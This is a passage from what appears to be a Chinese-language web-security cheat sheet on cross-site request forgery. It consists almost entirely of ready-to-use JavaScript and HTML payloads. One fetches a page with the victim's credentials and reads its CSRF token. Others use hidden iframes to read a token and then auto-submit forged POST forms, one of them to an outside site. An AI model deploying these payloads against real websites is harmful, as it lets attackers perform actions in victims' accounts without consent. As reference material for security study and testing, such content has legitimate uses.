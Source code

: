 ```javascript
xhr.withCredentials = true;
// true on the end of here makes the call asynchronous
xhr.open("GET", GET_URL, true);
xhr.onload = function (e) {
if (xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
// Get the document from the response
page = xhr.response
// Get the input element
input = page.getElementById("token");
// Show the token
//console.log("The token is: " + input.value);
// Use the token to submit the form
submitFormWithTokenJS(input.value);
}
};
// Make the request
xhr.send(null);
}

var GET_URL="http://google.com?param=VALUE"
var POST_URL="http://google.com?param=VALUE"
getTokenJS();
```
### **窃取 CSRF 令牌并使用 iframe、表单和 Ajax 发送 Post 请求**
```html
<form id="form1" action="http://google.com?param=VALUE" method="post" enctype="multipart/form-data">
<input type="text" name="username" value="AA">
<input type="checkbox" name="status" checked="checked">
<input id="token" type="hidden" name="token" value="" />
</form>

<script type="text/javascript">
function f1(){
x1=document.getElementById("i1");
x1d=(x1.contentWindow||x1.contentDocument);
t=x1d.document.getElementById("token").value;

document.getElementById("token").value=t;
document.getElementById("form1").submit();
}
</script>
<iframe id="i1" style="display:none" src="http://google.com?param=VALUE" onload="javascript:f1();"></iframe>
```
### **窃取 CSRF 令牌并使用 iframe 和表单发送 POST 请求**
```html
<iframe id="iframe" src="http://google.com?param=VALUE" width="500" height="500" onload="read()"></iframe>

<script>
function read()
{
var name = 'admin2';
var token = document.getElementById("iframe").contentDocument.forms[0].token.value;
document.writeln('<form width="0" height="0" method="post" action="http://www.yoursebsite.com/check.php"  enctype="multipart/form-data">');
document.writeln('<input id="username" type="text" name="username" value="' + name + '" /><br />');
document.writeln('<input id="token" type="hidden" name="token" value="' + token + '" />');
document.writeln('<input type="submit" name="submit" value="Submit" /><br/>');
document.writeln('</form>');
document.forms[0].submit.click();
```